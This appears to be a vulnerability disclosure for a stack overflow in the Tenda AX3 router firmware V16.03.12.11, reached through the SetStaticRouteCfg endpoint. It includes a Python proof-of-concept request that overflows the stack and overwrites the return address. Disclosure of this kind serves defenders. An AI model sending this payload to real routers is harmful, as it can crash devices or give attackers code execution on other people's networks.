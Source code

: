 # Stack Overflow Vulnerability in Tenda Router AX3 ([V16.03.12.11]((https://www.tenda.com.cn/material/show/103476)))

## Overview

A stack overflow vulnerability exists in the latest version V16.03.12.11 of the Tenda Router AX3. This vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf` call, where improper input parameters from the `/goform/SetStaticRouteCfg` page lead to data being concatenated onto the stack without any checks.

## Vulnerability Details

In the latest version `V16.03.12.11` of the Tenda Router AX3, a vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf`. 

When handling requests from the `/goform/SetStaticRouteCfg` page, the construction of the parameter list can influence the `save_staticroute_data` function, causing input to be concatenated onto the stack by the `sscanf` function without any checks, leading to a stack overflow. 

![image-20250203211326509](./assets/image-20250203211326509.png)

![image-20250203211413402](./assets/image-20250203211413402.png)

With appropriate parameter construction, this can result in denial of service (DoS) and remote code execution (RCE).

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetStaticRouteCfg"

retaddr="bbbb"
payload = "1,2,3,"+"a"*0x674+p32(retaddr)
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo



![image-20250203214025940](./assets/image-20250203214025940.png)
![image-20250203232553401](./assets/image-20250203232553401.png)
![image-20250203232906046](./assets/image-20250203232906046.png)
![image-20250203232818981](./assets/image-20250203232818981.png)
